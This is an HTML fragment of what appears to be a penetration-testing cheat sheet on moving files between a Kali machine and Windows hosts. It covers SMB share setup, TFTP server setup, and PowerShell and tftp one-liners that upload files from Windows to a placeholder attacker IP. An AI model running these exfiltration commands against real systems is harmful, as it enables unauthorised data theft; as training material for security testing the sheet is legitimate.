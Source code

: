                     <tr>
                        <td>Might need to give SMB permissions to share directory</td>
                        <td>chmod 777 &lt;smb share directory&gt;<br>chmod 755 &lt;smb share directory&gt;</td>
                    </tr>
                    <tr>
                        <td>Start Share</td>
                        <td>service smbd restart</td>
                    </tr>
                </table>
                <li>Troubleshoot by using smbclient and access the SMB directory on our machine and attempt to retrieve or upload files.</li>
            </td>
        </tr>
    </table>

    <li>Upload to windows</li>
    <table>
        <tr>
            <td>Upload with Powershell to Web Server</td>
            <td>
                <li>Invoke-RestMethod -Method PUT -Uri &quot;http://&lt;ip address&gt;:&lt;port&gt;/&lt;file name&gt;&quot; -Body $variable</li>
                <li>powershell (New-Object System.Net.WebClient).UploadFile(&#039;http://&lt;ip address&gt;/&lt;file name&gt;&#039;, &#039;&lt;file name&gt;&#039;)</li>
            </td>
        </tr>
        <tr>
            <td>
                <li>Upload to tftp</li>
                <ul>
                    <li>tftp is only on Windows until XP & 2003</li>
                </ul>
            </td>
            <td>
                <table>
                    <tr>
                        <td>Setup TFTP on Kali</td>
                        <td>sudo apt install atftp</td>
                    </tr>
                    <tr>
                        <td>Create tftp Directory</td>
                        <td>sudo mkdir /tftp</td>
                    </tr>
                    <tr>
                        <td>Set owner "nobody" on tftp Directory</td>
                        <td>sudo chown nobody: /tftp</td>
                    </tr>
                    <tr>
                        <td>Activate tftp server on port 69</td>
                        <td>sudo atftpd --daemon --port 69 /tftp</td>
                    </tr>
                    <tr>
                        <td>Upload file from Windows to Linux</td>
                        <td>tftp -i &lt;ip address&gt; put file.txt</td>
                    </tr>
                </table>
            </td>
        </tr>
        <tr>
            <td>Base64 Encoding</td>
            <td>
                <table>
                    <tr>
                        <td>base64 w/ powershell</td>